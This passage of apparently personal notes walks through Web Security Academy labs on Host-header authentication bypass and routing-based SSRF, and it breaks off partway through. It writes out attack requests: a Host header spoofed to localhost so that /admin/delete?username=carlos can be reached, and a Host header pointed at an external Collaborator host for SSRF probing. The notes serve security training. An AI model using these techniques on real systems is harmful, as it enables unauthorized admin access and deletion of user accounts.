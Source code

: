 ```bash
Change:

Host: test.com

To

Host: localhost

Response:

HTTP/1.1 200 OK

Change:

GET /admin HTTP/1.1

To

GET /admin/delete?username=carlos HTTP/1.1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605223122.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605222430.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605223229.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605223314.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605223041.png)

### Routing-based SSRF
```bash

# This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address.

# To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos. 

Refresh the page
Go to HTTP: history
Find:

GET / HTTP/1.1

Go to: Burp -> Burp Collaborator client -> Copy to clipboard
Change:

Host: 0a9c00a604717e25c0b4237d001b0056.web-security-academy.net

To

Host: qc6ewr6ssnh6x2sewzejjqo3buhm5b.oastify.com

Send to Intruder
Un-check "Update Host header to match target"
Clear

Change:

```